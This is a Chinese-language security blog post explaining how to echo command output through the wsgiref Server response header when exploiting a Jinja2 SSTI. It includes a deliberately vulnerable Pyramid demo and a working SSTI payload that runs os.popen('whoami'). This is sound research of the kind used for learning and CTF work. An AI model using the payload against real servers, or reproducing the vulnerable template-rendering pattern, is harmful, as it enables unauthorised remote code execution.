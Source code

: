 # Python-Wsgiref通过Server回显命令

  
  
&lt;!--more--&gt;  
## 0x00 前言  
[`wsgiref`](https://docs.python.org/zh-cn/3/library/wsgiref.html#module-wsgiref &#34;wsgiref: WSGI Utilities and Reference Implementation.&#34;) 是 WSGI 规范的一个参考实现，可被用于将 WSGI 支持添加到 Web 服务器或框架中。 它提供了操作 WSGI 环境变量和响应标头的工具，实现 WSGI 服务器的基类，可部署 WSGI 应用程序的演示性 HTTP 服务器，用于静态类型检查的类型，以及一个用于检查 WSGI 服务器和应用程序是否符合 WSGI 规范的验证工具 ([**PEP 3333**](https://peps.python.org/pep-3333/))。  
## 0x01 前置知识  
先来写一个 Demo  
```python  
import jinja2  
from pyramid.config import Configurator  
from pyramid.httpexceptions import HTTPFound  
from pyramid.response import Response  
from pyramid.session import SignedCookieSessionFactory  
from wsgiref.simple_server import make_server  
def shell_view(request):  
    expression = request.GET.get(&#39;shellcmd&#39;, &#39;&#39;)  
    try:  
        result = jinja2.Environment(loader=jinja2.BaseLoader()).from_string(expression).render({&#34;request&#34;: request})  
        if result != None:  
            return Response(&#39;success&#39;)  
        else:  
            return Response(&#39;error&#39;)  
    except Exception as e:  
        return Response(&#39;error&#39;)  
  
  
def main():  
    session_factory = SignedCookieSessionFactory(&#39;secret_key&#39;)  
    with Configurator(session_factory=session_factory) as config:  
        config.include(&#39;pyramid_chameleon&#39;)  # 添加渲染模板  
        config.add_static_view(name=&#39;static&#39;, path=&#39;/app/static&#39;)  
        config.set_default_permission(&#39;view&#39;)  # 设置默认权限为view  
  
        config.add_route(&#39;shell&#39;, &#39;/shell&#39;)  
  
        config.add_view(shell_view, route_name=&#39;shell&#39;, renderer=&#39;string&#39;, permission=&#39;view&#39;)  
  
        config.scan()  
        app = config.make_wsgi_app()  
        return app  
  
  
if __name__ == &#34;__main__&#34;:  
    app = main()  
    server = make_server(&#39;0.0.0.0&#39;, 6543, app)  
    server.serve_forever()  
```  
此`demo`存在`SSTI`漏洞，但是我们如何在不能通网，不能写文件的情况下得到执行RCE 的结果呢？  
很明显是需要通过其回显，但是内容写死了，无法更改，只能通过请求头来回显执行的结果  
首先来看一下  
`make_server()`，通过手册得知  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412072334739.png)
实现了一个简易的`HTTP`服务器  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412072335539.png)
`WSGIServer`是一个服务器类，用于监听客户端的 HTTP 请求并将这些请求传递给 `WSGIRequestHandler` 处理  
## 0x02 漏洞分析  
打一个断点，看一下调用栈  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412072340140.png)
在`run()`方法中存在`finish_response()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412072341178.png)
因为 Python 实现的大多数HTTP服务器均在此方法中设置了`send_headers()`，打一个断点，跟进一下  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412072343656.png)
继续跟进其`write()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412072344176.png)
可以看到在`write`方法中，正好存在`send_headers()`方法，继续跟进  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412072344975.png)
在这里跟进`send_preamble()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412072345415.png)
正是此方法控制了响应头`Server`  
而此方法在`&lt;wsgiref.simple_server.ServerHandler object at 0x7fbba01eb5b0&gt;`中，利用 SSTI 控制此属性即可，构造`payload`  
```python  
{{lipsum.__spec__.__init__.__globals__.__builtins__.setattr(lipsum.__spec__.__init__.__globals__.sys.modules.wsgiref.simple_server.ServerHandler,&#34;server_software&#34;,lipsum[&#39;__globals__&#39;][&#39;os&#39;]|attr(&#39;popen&#39;)(&#39;whoami&#39;)|attr(&#39;read&#39;)())}}  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412072347843.png)
## Reference  
https://docs.python.org/zh-cn/3/library/wsgiref.html#module-wsgiref.simple_server  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/python-wsgiref%E9%80%9A%E8%BF%87server%E5%9B%9E%E6%98%BE%E5%91%BD%E4%BB%A4/  

